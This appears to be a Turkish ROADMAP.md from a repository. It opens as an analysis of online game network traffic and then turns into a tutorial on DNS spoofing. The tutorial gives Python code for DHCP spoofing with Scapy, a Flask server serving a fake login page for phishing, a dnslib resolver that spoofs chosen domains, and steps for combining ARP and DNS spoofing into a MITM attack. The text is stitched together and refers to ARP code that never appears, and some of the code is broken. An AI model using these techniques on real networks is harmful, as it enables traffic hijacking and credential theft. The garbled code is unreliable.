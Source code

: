# ROADMAP.md: Python ile DNS Spoofing Özelliklerini Geliştirme ve Test Etme

## 1. Giriş
Bu proje, Counter-Strike: Global Offensive (CS:GO), Valorant ve PlayerUnknown's Battlegrounds (PUBG) gibi popüler çevrimiçi oyunların ağ bağlantılarını derinlemesine incelemeyi hedeflemektedir. Ana amaç, bu oyunlar sırasında kullanılan IP adreslerini, sunucuları, portları ve protokolleri tespit etmektir. Elde edilen veriler, oyun güvenliği araştırmaları, ağ performans analizi ve potansiyel zafiyet tespiti için temel oluşturacaktır.**

Bu rehber, DNS spoofing tekniklerini Python ile yeniden oluşturmayı, etik ve yasal sınırlar içinde kalarak kontrollü bir ortamda test etmeyi amaçlar.

## 2. Proje Vizyonu
** Projenin temel vizyonu, oyun ağ trafiği analizinde kapsamlı ve tekrarlanabilir bir metodoloji sunarak, araştırmacılar, güvenlik uzmanları ve oyun meraklıları için değerli bir kaynak olmaktır. Uzun vadede, bu projenin statik bir raporlama aracından, dinamik ve etkileşimli bir ağ analiz platformuna dönüşmesi hedeflenmektedir. Bu, sadece mevcut oyunları değil, gelecekteki çevrimiçi oyunları da analiz etmeye olanak tanıyan genişletilebilir bir yapıya sahip olacaktır. **

## 3. Tamamlanan Kilometre Taşı: V1.0 - Temel Ağ Analizi ve Raporlama
Bu aşama, projenin başlangıç hedeflerinin başarıyla tamamlandığı ilk temel sürümü temsil etmektedir.
  **Hedefler:**:
   - Seçilen popüler çevrimiçi oyunların (CS:GO, Valorant, PUBG) temel ağ bağlantı detaylarının (IP adresleri, portlar, kullanılan protokoller) tespiti ve belgelenmesi.
   - Bulguların README.md dosyasında açık ve anlaşılır bir şekilde sunulması.

### Tamamlanan Görevler:
  - Her bir hedef oyun için standart oyun senaryolarında (lobi, oyun içi, sunucu bağlantısı) Wireshark ile ağ trafiği yakalama süreçlerinin tanımlanması ve uygulanması.
  - Oyun trafiğini etkili bir şekilde izole etmek ve analiz etmek için özel Wireshark Capture Filters ve Display Filters setlerinin oluşturulması ve test edilmesi.
  - Yakalanan **.pcap** dosyaları üzerinde temel analizlerin yapılması ve kritik IP adresleri, port aralıkları ve ağ protokollerinin (UDP, TCP) belirlenmes
  - Projenin amacını, hedeflerini, kurulum adımlarını ve ilk bulguları içeren kapsamlı bir README.md dosyasının hazırlanması.
  - Tespit edilen IP/port/protokol bilgilerini özetleyen detaylı bir **Oyun Ağ Bağlantıları Analiz Tablosu**nun oluşturulması ve README.md'ye entegrasyonu.
  - İlgili araştırma notları için researchs/ klasörü altında ilk taslak Markdown dosyalarının oluşturulması (örn. csgo_network_analysis.md, wireshark_filters.md).
### Elde Edilen Çıktılar::
```
Temel oyun ağ bağlantı bilgilerini içeren ilk analiz raporu ve dokümantasyon.

Etkili ve çalışır durumda Wireshark yakalama/görüntüleme filtre setleri.

GitHub üzerinde, kolayca klonlanabilir ve anlaşılır bir yapıya sahip proje deposu.

```

### DHCP Manipülasyon Betiği
Bu betik, sahte DHCP teklifleriyle istemcilere yanlış bir DNS sunucusu atar (DDSpoof benzeri).

1. Scapy ile DHCP spoofing betiği:

```python
from scapy.all import *

def dhcp_spoof(packet):
    if packet.haslayer(DHCP) and packet[DHCP].options[0][1] == 1:  # Keşif (Discover)
        fake_dns = "192.168.1.100"
        # Sahte DHCP yanıtı oluşturma (detaylı paket yapılandırması gerekir)
        # send(dhcp_offer)

sniff(filter="udp and (port 67 or 68)", prn=dhcp_spoof)
```

### Sahte Web Sunucusu
Kimlik avı veya sahte içerik sunmak için bir web sunucusu oluşturun.

1. Flask’ı kurun: `pip install flask`
2. Basit bir Flask uygulaması yazın:

```python
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

- `templates/fake_login.html` dosyası oluşturun (örneğin, bir giriş sayfası taklidi).

## Gelişmiş Geliştirmeler

### Seçmeli DNS Spoofing için DNS Proxy
DNSChef gibi belirli alan adlarını spoof eden bir DNS sunucusu oluşturun.

1. dnslib’i kurun: `pip install dnslib`
2. DNS proxy betiği:

```python
from dnslib import *
from dnslib.server import DNSServer, DNSHandler, BaseResolver
import dns.resolv

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        else:
            # Gerçek DNS’e yönlendirme
            reply = DNSRecord.parse(dns.resolv.Resolver().query(request.q.qname, request.q.qtype).send())
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()
```

### Entegre MITM Betiği
Bettercap benzeri bir betikle ARP ve DNS spoofing’i birleştirin.

1. Yukarıdaki ARP ve DNS spoofing kodlarını birleştirin.
2. Yapılandırma dosyası veya komut satırı argümanlarıyla özelleştirin.

## Geliştirmelerin Test Edilmesi
1. **ARP Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de ARP tablosunu kontrol edin (`arp -a`); ağ geçidinin MAC adresi saldırganınkiyle değişmiş olmalı.
2. **DNS Spoofing**:
   - Betiği çalıştırın.
   - Kurban VM’de bir alan adı çözümleyin (ör. `nslookup example.com`); sahte IP dönmeli.
3. **DHCP Manipülasyonu**:
   - Betiği çalıştırın.
   - Kurban VM’de IP kirasını yenileyin (`ipconfig /renew` veya `dhclient`); DNS sunucusu sahte IP olmalı.
4. **Sahte Web Sunucusu**:
   - Kurban VM’den sahte domaine erişin; sahte sayfa görüntülenmeli.

## Karşı Önlemler ve En İyi Uygulamalar
- **Statik ARP Girişleri**: ARP spoofing’i önler.
- **DNSSEC**: DNS sorgularını doğrular.
- **HTTPS Kullanımı**: Sertifika uyarılarına dikkat edin.
- **VPN**: Trafiği şifreler ve yerel manipülasyonları engeller.
- **İzole Test Ortamı**: Üretim ağlarında test yapmayın.

## Sonuç
Bu yol haritası, Python ile DNS spoofing özelliklerini geliştirmeyi ve test etmeyi adım adım açıklamıştır. Etik ve yasal sorumluluklara bağlı kalarak, bu bilgileri siber güvenliği güçlendirmek için kullanmaya devam edin.
